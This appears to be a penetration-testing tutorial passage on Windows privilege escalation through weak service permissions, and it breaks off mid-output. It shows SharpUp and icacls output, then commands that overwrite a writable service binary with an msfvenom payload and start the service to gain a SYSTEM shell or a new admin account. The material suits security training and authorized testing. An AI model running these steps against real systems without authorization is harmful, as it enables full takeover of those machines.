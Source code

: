 **Permissive File System ACLs**
````
# Running SharpUp
> .\SharpUp.exe audit
=== SharpUp: Running Privilege Escalation Checks ===
=== Modifiable Service Binaries ===

  Name             : SecurityService
  DisplayName      : PC Security Management Service
  Description      : Responsible for managing PC security
  State            : Stopped
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\PCProtect\SecurityService.exe"
  
  <SNIP>

# Checking Permissions with icacls
> icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"

C:\Program Files (x86)\PCProtect\SecurityService.exe BUILTIN\Users:(I)(F)
                                                     Everyone:(I)(F)
                                                     NT AUTHORITY\SYSTEM:(I)(F)
                                                     BUILTIN\Administrators:(I)(F)
                                                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
````
Using icacls we can verify the vulnerability and see that the EVERYONE and BUILTIN\Users groups have been granted full permissions to the directory, and therefore any unprivileged system user can manipulate the directory and its contents.

This service is also startable by unprivileged users, so we can make a backup of the original binary and replace it with a malicious binary generated with msfvenom. It can give us a reverse shell as SYSTEM, or add a local admin user and give us full administrative control over the machine.

**Exploitation**
````
# Replacing Service Binary
> cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
> sc start SecurityService
````

**Weak Service Permissions**
````
# Reviewing SharpUp Again
> SharpUp.exe audit
=== SharpUp: Running Privilege Escalation Checks ===
=== Modifiable Services ===
 
  Name             : WindscribeService
  DisplayName      : WindscribeService
  Description      : Manages the firewall and controls the VPN tunnel
  State            : Running
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\Windscribe\WindscribeService.exe"

# Checking Permissions with AccessChk
> accesschk.exe /accepteula -quvcw WindscribeService
 
Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com
 
WindscribeService
  Medium Mandatory Level (Default) [No-Write-Up]
````